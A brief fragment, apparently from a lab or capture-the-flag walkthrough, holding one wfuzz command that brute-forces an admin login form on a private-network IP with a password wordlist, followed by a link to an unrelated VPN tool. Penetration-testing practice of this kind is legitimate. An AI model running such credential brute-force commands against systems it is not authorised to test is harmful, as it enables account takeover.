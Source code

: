 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```

Reference: https://github.com/dlenski/vpn-slice




